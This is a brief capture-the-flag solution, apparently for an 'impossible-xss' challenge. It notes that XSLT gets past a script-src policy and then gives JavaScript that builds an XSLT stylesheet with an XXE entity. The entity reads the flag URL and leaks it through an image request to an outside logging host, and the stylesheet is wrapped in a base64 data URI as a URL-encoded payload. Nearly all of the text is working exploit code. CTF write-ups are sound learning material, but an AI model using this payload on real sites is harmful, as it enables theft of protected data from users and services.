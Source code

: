 use XSLT to use an XXE that loads the flag and sends the flag to your server

XSLT is stopped by script-src, but not by devtools setJavascriptEnabled


```js
ss = `<?xml version="1.0"?>
<!DOCTYPE a [
   <!ENTITY xxe SYSTEM  "https://impossible-xss.mc.ax/flag" >]>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
  <xsl:template match="/asdf">
    <HTML>
      <HEAD>
        <TITLE></TITLE>
      </HEAD>
      <BODY>
        <img>
          <xsl:attribute name="src">
            https://hc.lc/log2.php?&xxe;
          </xsl:attribute>
        </img>
      </BODY>
    </HTML>
  </xsl:template>
</xsl:stylesheet>`

xml=`<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="data:text/plain;base64,${btoa(ss)}"?>
<asdf></asdf>`
payload=encodeURIComponent(xml)
```
